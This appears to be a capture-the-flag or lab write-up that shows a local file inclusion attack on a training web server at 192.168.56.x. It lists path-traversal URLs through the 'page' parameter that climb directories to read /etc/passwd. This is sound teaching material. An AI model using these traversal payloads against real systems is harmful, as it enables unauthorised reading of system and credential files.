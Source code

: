 # Local File Inclusion

We can see a query page in multiple url.

http://192.168.56.102/index.php?page=survey
http://192.168.56.102/index.php?page=member

The server probably loads a local file with a relative path.
Relative path is dangerous because we can use that breach to access files at the root folder of the machine like /etc/passwd
to get some interesting informations.

Lets try this link:
http://192.168.56.102/index.php?page=../member

There is an alert that say "Wtf?"!!

We can try to access and go back to the parent directory.
Every time we had ../ the message is different.

http://192.168.56.102/index.php?page=../etc/passwd
http://192.168.56.103/index.php?page=../../etc/passwd
http://192.168.56.103/index.php?page=../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../../../../etc/passwd

**We got it!!**

## External Resources
https://book.hacktricks.xyz/pentesting-web/file-inclusion
